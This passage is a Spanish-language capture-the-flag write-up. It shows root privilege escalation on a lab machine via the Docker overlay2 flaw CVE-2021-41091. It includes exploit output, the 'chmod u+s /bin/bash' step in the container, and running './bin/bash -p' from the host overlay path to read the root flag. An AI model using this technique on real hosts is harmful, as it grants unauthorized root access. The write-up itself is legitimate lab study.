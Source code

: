 Lo ejecuto pero me arroja un error...

```bash
marcus@monitorstwo:/tmp$ ./exp.sh
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didn't spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
```

Por lo que veo que primero he de asignar permisos SUID a la bash desde el contenedor docker donde tengo acceso como root.

```bash
chmod u+s /bin/bash
```

De forma que una vez le he asignado permisos SUID vuelvo a lanzar el exploit.

Lo lanzo, me dirijo a la ruta `/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged` y ejecuto `/bin/bash -p`.

```bash
marcus@monitorstwo:/tmp$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p
bash-5.1# id
uid=1000(marcus) gid=1000(marcus) euid=0(root) groups=1000(marcus)
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
5f483b6d******c66795d72ac*******
```

Y finalmente me convierto en root y puedo leer la flag root.






